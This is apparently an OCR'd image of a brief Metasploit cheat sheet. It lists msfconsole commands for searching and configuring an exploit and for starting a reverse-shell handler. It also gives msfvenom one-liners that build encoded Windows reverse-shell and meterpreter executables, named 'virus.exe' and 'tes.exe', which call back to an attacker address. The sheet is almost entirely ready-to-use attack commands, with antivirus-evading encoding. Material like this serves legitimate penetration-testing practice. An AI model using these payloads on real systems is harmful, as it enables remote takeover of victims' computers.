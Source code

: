 #start metasploit :
/opt/metasploit-framework/bin/msfconsole

#search for exploit :
search exploitname

#show what option need to be filled :
show options

#set the options :
set RHOSTS 10.0.0.0

#set the lhost :
set LHOST 10.1.0.25

#creating netcat listener :
use exploit/multi/handler
set LHOST 10.9.1.25
set LPORT 1337
exploit -j

Creating Windows Payload :
- msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.25 LPORT=1338 -e x86/shikata_ga_nai -f exe -o virus.exe

- msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.1.25 LPORT=1338 -f exe -o tes.exe